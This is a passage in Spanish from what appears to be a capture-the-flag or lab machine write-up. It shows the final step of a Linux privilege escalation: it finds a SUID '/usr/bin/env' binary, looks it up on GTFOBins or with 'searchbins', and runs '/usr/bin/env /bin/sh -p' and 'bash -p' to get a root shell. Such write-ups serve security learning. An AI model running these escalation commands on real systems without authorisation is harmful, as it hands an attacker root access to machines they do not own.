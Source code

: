 ```
/usr/bin/mount
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/env   <===== Binario que vamos a utilizar
/usr/bin/newgrp
```
Bien, con este comando parece que funciona. Entre los binarios obtenidos vemos el binario "/usr/bin/env" que sera el que utilizaremos para hacer nuestra escalada de privilegios.
Para ello, iremos a la pagina "https://gtfobins.github.io" y buscaremos "env".
Una vez encontrado, nos dirigiremos a la seccion "SUID" y veremos que nos dice que para escalar privilegios habria que ejecutar:
```
./env /bin/sh -p
```
**NOTA: Podriamos hacer esto mismo sin ir la pagina de "gtfobins" simplemente habiendo instalado "searchbins" y buscandolo directamente con el comando:**
```
searchbins -b env -f suid

	-b = binario a buscar (en este caso "env")
	-f = funcion deseada (en este caso "suid")
```
**FIN DE LA NOTA**

Es momento ahora de ejecutarlo en la terminal, PERO, con la ruta completa de "./env" tal y como se ve a continuacion:
```
/usr/bin/env /bin/sh -p
```
Y finalmente, escribiendo "whoami" se puede ver:
```
# whoami
root
#
```
No obstante, si escribieramos:
```
bash -p
```
obtendriamos un prompt diferente y algo mas "normal" tal y como se puede ver aqui abajo:
```
bash-5.1# whoami
root
bash-5.1#
```
Y ahora si... ya estaria la maquina hecha :)


